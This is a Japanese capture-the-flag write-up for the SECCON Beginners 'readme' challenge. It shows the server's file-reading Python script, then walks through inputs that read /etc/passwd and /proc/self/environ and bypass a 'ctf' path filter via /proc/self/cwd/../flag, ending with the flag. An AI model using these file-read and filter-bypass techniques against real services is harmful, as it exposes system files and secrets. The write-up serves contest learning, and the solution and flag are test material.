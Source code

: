 # readme:Misc:272pts
[readme](readme.zip-58261436215c147c3ab23cdaae6a5efd82a3ccbf)  
nc readme.quals.beginners.seccon.jp 9712  

# Solution
解凍すると以下のソースコードserver.pyが出てくる。  
```python:server.py
#!/usr/bin/env python3
import os

assert os.path.isfile('/home/ctf/flag') # readme

if __name__ == '__main__':
    path = input("File: ")
    if not os.path.exists(path):
        exit("[-] File not found")
    if not os.path.isfile(path):
        exit("[-] Not a file")
    if '/' != path[0]:
        exit("[-] Use absolute path")
    if 'ctf' in path:
        exit("[-] Path not allowed")
    try:
        print(open(path, 'r').read())
    except:
        exit("[-] Permission denied")
```
ncを行うと、どうやらファイルを読み込んでくれるらしい。  
ただし、/から始まりctfを使わないことが条件である。  
/etc/passwdを見てみる。  
```bash
$ nc readme.quals.beginners.seccon.jp 9712
File: /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
~~~
ctf:x:1000:1000:Linux User,,,:/home/ctf:/bin/ash
```
表示されたので、なんとか迂回してctfユーザのホームディレクトリにたどり着きたい。  
/proc/self/environを見てみる。  
ここで自プロセスの環境変数を見ることができる。  
```bash
$ nc readme.quals.beginners.seccon.jp 9712
File: /proc/self/environ
HOSTNAME=b2a8444bdc32 PYTHON_PIP_VERSION=20.1 SHLVL=1 HOME=/home/ctf GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/1fe530e9e3d800be94e04f6428460fc4fb94f5a9/get-pip.py PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 PYTHON_VERSION=3.7.7 PWD=/home/ctf/serve PYTHON_GET_PIP_SHA256=ce486cddac44e99496a702aa5c06c5028414ef48fdfd5242cd2fe559b13d4348 SOCAT_PID=12637 SOCAT_PPID=1 SOCAT_VERSION=1.7.3.3 SOCAT_SOCKADDR=172.21.0.2 SOCAT_SOCKPORT=9712 SOCAT_PEERADDR=219.126.191.85 SOCAT_PEERPORT=10861
```
PWDが/home/ctf/serveのようだ。  
プロセスのPWDへのシンボリックリンクは/proc/self/cwdである。  
そこから一つ上がればよい。  
```bash
$ nc readme.quals.beginners.seccon.jp 9712
File: /proc/self/cwd/../flag
ctf4b{m4g1c4l_p0w3r_0f_pr0cf5}
```

## ctf4b{m4g1c4l_p0w3r_0f_pr0cf5}